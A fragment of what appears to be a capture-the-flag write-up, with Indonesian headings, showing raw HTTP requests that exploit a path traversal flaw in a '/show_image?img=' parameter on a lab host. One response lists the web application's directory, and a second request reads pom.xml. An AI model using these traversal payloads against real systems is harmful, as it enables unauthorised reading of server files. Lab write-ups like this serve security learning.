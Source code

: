 
###### path WebApp

```json
GET /show_image?img=../../../../../../../../../var/www/WebApp/ HTTP/1.1
Host: 10.10.11.204:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.204:8080/upload
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=1


```

**Response:**
```json
HTTP/1.1 200 
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 4096
Date: Tue, 18 Jun 2024 06:15:49 GMT
Keep-Alive: timeout=60
Connection: keep-alive

.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
target

```

###### mendapatakan pom.xml


```json
GET /show_image?img=../../../../../../../../../var/www/WebApp/pom.xml HTTP/1.1
Host: 10.10.11.204:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.204:8080/upload
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=1


```
